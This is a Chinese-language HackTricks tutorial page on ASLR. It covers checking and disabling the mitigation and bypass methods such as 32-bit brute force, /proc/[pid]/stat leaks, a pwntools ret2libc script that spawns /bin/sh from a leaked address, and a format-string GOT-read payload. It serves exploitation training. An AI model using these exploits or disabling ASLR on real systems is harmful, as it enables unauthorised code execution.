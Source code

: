 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

**地址空间布局随机化 (ASLR)** 是一种在操作系统中使用的安全技术，用于 **随机化系统和应用程序进程使用的内存地址**。通过这样做，它使攻击者预测特定进程和数据（如堆栈、堆和库）的位置变得更加困难，从而减轻某些类型的攻击，特别是缓冲区溢出。

### **检查 ASLR 状态**

要 **检查** Linux 系统上的 ASLR 状态，可以从 `/proc/sys/kernel/randomize_va_space` 文件中读取值。存储在此文件中的值决定了应用的 ASLR 类型：

- **0**：没有随机化。一切都是静态的。
- **1**：保守随机化。共享库、堆栈、mmap()、VDSO 页面被随机化。
- **2**：完全随机化。除了保守随机化随机化的元素外，通过 `brk()` 管理的内存也被随机化。

您可以使用以下命令检查 ASLR 状态：
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **禁用 ASLR**

要**禁用** ASLR，您需要将 `/proc/sys/kernel/randomize_va_space` 的值设置为 **0**。在测试或调试场景之外，通常不建议禁用 ASLR。以下是禁用它的方法：
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
您还可以通过以下方式禁用 ASLR 以进行执行：
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **启用 ASLR**

要**启用** ASLR，您可以将值 **2** 写入 `/proc/sys/kernel/randomize_va_space` 文件。这通常需要 root 权限。可以使用以下命令启用完全随机化：
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **重启后的持久性**

使用 `echo` 命令所做的更改是临时的，并将在重启时重置。要使更改持久化，您需要编辑 `/etc/sysctl.conf` 文件并添加或修改以下行：
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
在编辑 `/etc/sysctl.conf` 后，使用以下命令应用更改：
```bash
sudo sysctl -p
```
这将确保您的 ASLR 设置在重启后保持不变。

## **绕过**

### 32位暴力破解

PaX 将进程地址空间分为 **3 组**：

- **代码和数据**（已初始化和未初始化）：`.text`、`.data` 和 `.bss` —> `delta_exec` 变量中的 **16 位** 熵。该变量在每个进程中随机初始化，并添加到初始地址。
- **通过 `mmap()` 分配的内存** 和 **共享库** —> **16 位**，称为 `delta_mmap`。
- **栈** —> **24 位**，称为 `delta_stack`。然而，它实际上使用 **11 位**（从第 10 字节到第 20 字节，包括），对齐到 **16 字节** —> 这导致 **524,288 个可能的真实栈地址**。

上述数据适用于 32 位系统，减少的最终熵使得通过一次又一次重试执行来绕过 ASLR 成为可能，直到利用成功完成。

#### 暴力破解思路：

- 如果您有足够大的溢出以容纳 **大 NOP 滑梯在 shellcode 之前**，您可以在栈中暴力破解地址，直到流程 **跳过 NOP 滑梯的某部分**。
- 如果溢出不大，并且利用可以在本地运行，另一种选择是 **在环境变量中添加 NOP 滑梯和 shellcode**。
- 如果利用是本地的，您可以尝试暴力破解 libc 的基地址（对 32 位系统有用）：
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- 如果攻击一个远程服务器，你可以尝试**暴力破解`libc`函数`usleep`的地址**，传递参数10（例如）。如果在某个时刻**服务器响应多了10秒**，你就找到了这个函数的地址。

> [!TIP]
> 在64位系统中，熵要高得多，这样是不可能的。

### 本地信息 (`/proc/[pid]/stat`)

进程的**`/proc/[pid]/stat`**文件始终对所有人可读，并且**包含有趣的**信息，例如：

- **startcode** & **endcode**：二进制文件**TEXT**的上方和下方的地址
- **startstack**：**stack**的起始地址
- **start_data** & **end_data**：**BSS**的上方和下方的地址
- **kstkesp** & **kstkeip**：当前的**ESP**和**EIP**地址
- **arg_start** & **arg_end**：**cli arguments**的上方和下方的地址
- **env_start** & **env_end**：**env variables**的上方和下方的地址

因此，如果攻击者与被利用的二进制文件在同一台计算机上，并且该二进制文件不期望来自原始参数的溢出，而是来自读取此文件后可以构造的不同**输入**。攻击者可以**从此文件中获取一些地址并从中构造偏移量以进行利用**。

> [!TIP]
> 有关此文件的更多信息，请查看[https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)，搜索`/proc/pid/stat`

### 拥有一个泄漏

- **挑战是给出一个泄漏**

如果你得到了一个泄漏（简单的CTF挑战），你可以从中计算偏移量（假设例如你知道你正在利用的系统中使用的确切libc版本）。这个示例利用提取自[**这里的示例**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)（查看该页面以获取更多详细信息）：
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

通过利用缓冲区溢出，可以利用 **ret2plt** 来提取 libc 中一个函数的地址。检查：

{{#ref}}
ret2plt.md
{{#endref}}

- **格式字符串任意读取**

就像在 ret2plt 中一样，如果通过格式字符串漏洞有任意读取的能力，可以从 GOT 中提取 **libc 函数** 的地址。以下 [**示例来自这里**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
您可以在以下位置找到有关格式字符串任意读取的更多信息：

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

尝试通过利用栈内的地址来绕过 ASLR：

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}

